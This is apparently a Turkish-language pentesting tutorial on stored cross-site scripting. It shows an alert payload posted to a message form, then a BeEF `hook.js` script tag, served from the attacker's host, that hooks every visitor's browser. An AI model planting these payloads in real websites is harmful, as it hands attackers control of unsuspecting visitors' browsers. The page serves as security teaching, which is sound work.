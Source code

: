 ## XXS Stored
#### Bu sefer form siteleri benzeri bir etkileşim yeri buluyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/41454e2cfb3fb9afae9f262e08f50311f927397e/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2014.03.03.jpeg)
#### Rastgele bir isim giriyoruz, mesaj kısmına ```<script>alert("ı hack you")</script>``` yazıyoruz ve submit ediyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/9991c76b35828899d62e508174455d796dc28ba0/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2014.05.40.jpeg)
#### Mesajımızı siteye giren herkes göreceği için bu sayfaya giren herkesin ekranında ```ı hack you``` mesajı görülecek
![](https://github.com/ahmetnuysal/Cyber-Security/blob/f7a0ec1433d1e05fd007503381c54e818cfce8e6/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2013.42.12.jpeg)

## XSS Stored ve Beef Çalıştırma
#### ```beef-xss``` ile beef'i açıyoruz
#### ```example``` kısmınıdaki ```<script src="http://.../hook.js"></script>```kodunu kopyalıyoruz ve sitemize geri dönüyoruz
#### Bu kodu mesaj kısımına yapıştırıp submit ediyoruz
#### Artık bu siteye giren herkes hook'umuza takılmış olucak ve ```beef``` üzerinden bize görünür olucak
